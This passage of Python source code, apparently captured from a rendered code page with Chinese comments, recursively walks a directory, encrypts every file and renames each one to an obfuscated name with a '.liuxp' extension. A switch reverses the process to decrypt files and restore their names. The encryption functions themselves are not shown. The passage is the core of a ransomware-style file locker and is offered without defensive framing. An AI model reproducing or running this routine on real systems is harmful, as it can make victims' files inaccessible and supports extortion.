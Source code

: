 ```bash 折叠代码

    filename_bytes_base64 = filename_bytes_base64[::-1][1:]
    new_filename = filename_bytes_base64.decode('utf-8') + '.liuxp'

    # print (new_filename)
    print(os.path.join(dir, filename))
    print(os.path.join(dir, new_filename))
    os.rename(os.path.join(dir, filename), os.path.join(dir, new_filename))


def ReserveFilename(dir, filename):
    f = filename
    filename = filename[::-1][6:][::-1]
    filename_base64 = filename[::-1] + '\n'
    filename_bytes_base64 = filename_base64.encode('ascii')  # encode as ASCII
    ori_filename = base64.decodebytes(filename_bytes_base64).decode('utf-8')
    new_filename = ori_filename

    # print(new_filename)
    print(os.path.join(dir, f))
    print(os.path.join(dir, new_filename))
    os.rename(os.path.join(dir, f), os.path.join(dir, new_filename))


# 解密代码
# def Main(rootDir):
#     list_dirs = os.walk(rootDir)
#     for root, dirs, files in list_dirs:
#         if False:
#             # 遍历文件，加密并且改名
#             for f in files:
#                 filename = os.path.join(root, f)
#                 Encrypt(filename)
#                 RenameFile(root, f)
#         else:
#             # 遍历文件，解密并且恢复名字
#             for f in files:
#                 if f.endswith('.liuxp'):
#                     filename = os.path.join(root, f)
#                     Descrypt(filename)
#                     ReserveFilename(root, f)

# 加密代码
def Main(rootDir):
    list_dirs = os.walk(rootDir)
    for root, dirs, files in list_dirs:
        # 切换加密和解密过程
        # if False:   # 解密文件
        if True:  # 加密文件
            # 遍历文件，加密并且改名
            for f in files:
                filename = os.path.join(root, f)
                Encrypt(filename)
                RenameFile(root, f)
        else:
            # 遍历文件，解密并且恢复名字
            for f in files:
                filename = os.path.join(root, f)
                Descrypt(filename)
                ReserveFilename(root, f)


if __name__ == '__main__':
```